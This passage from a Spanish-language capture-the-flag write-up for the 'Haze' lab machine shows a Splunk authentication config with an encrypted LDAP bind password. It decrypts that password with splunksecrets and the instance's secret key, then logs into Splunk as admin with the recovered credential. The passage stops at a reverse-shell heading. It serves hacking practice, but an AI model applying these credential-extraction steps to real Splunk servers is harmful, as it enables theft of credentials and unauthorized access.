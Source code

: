 ~~~ bash

[Haze LDAP Auth]

SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=alexander.green,CN=Users,DC=haze,DC=htb
bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_Admins,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
~~~

Estas credenciales al parecer son válidas para `alexander.green`. Sabemos que la clave secreta está en el directorio `etc/auth/`. Desencriptaremos la contraseña para verla en texto claro

~~~ bash
splunksecrets splunk-decrypt -S etc/auth/splunk.secret --ciphertext '$1$YDz8WfhoCWmf6aTRkA+QqUI='

Sp1unkadmin@2k24
~~~

Si intentamos autenticarnos en el DC con estas credenciales, no tendremos éxito


## Splunk Auth as `admin`

Ingresaremos a `Splunk` con la contraseña que hemos encontrado, respecto al usuario, ha funcionado utilizar `admin`

~~~ bash
admin:Sp1unkadmin@2k24
~~~


## `Splunk` Reverse Shell
